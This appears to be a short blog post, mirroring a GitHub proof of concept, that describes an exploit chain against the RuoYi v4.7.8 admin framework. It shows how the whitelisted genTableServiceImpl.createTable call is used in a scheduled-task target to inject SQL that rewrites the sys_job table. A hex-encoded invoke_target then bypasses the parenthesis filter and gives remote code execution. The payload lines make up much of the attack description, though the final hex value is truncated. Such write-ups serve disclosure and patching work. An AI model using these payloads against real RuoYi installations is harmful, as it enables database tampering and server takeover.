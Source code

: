 ```yaml
---
title: "RuoYi-v4.7.8-RCE-POC"
author: ["4shen0ne"]
tags: ["poc"]
draft: false
---
```


REF: <https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC>

The system had vulnerabilities in the scheduled tasks before, and now I
bypass it.


## Sqli {#sqli}

In the patch, a strategy using blacklisting and whitelisting was
employed.

{{< figure src="/ox-hugo/_20240529_145528screenshot.png" >}}

However, I managed to bypass it by using a whitelist class and
successfully carried out an SQL injection.

```java
genTableServiceImpl.createTable('SELECT 1 FROM 'Hack By 1ue';')
```

{{< figure src="/ox-hugo/_20240529_145552screenshot.png" >}}

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```

{{< figure src="/ox-hugo/_20240529_145610screenshot.png" >}}

success to change the data of table `job_id`


## RCE {#rce}

`JobInvokeUtil` does not allow parentheses in the string during
invocation, so I modified the parameter value of a specific job in the
original job table to hexadecimal (bypassing defense detection),
enabling another scheduled task for Remote Code Execution (RCE).

{{< figure src="/ox-hugo/_20240529_145632screenshot.png" >}}

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a61... WHERE job_id = 2;')
```

{{< figure src="/ox-hugo/_20240529_145642screenshot.png" >}}

the job's invoke_target changed

{{< figure src="/ox-hugo/_20240529_145656screenshot.png" >}}

and then execute!
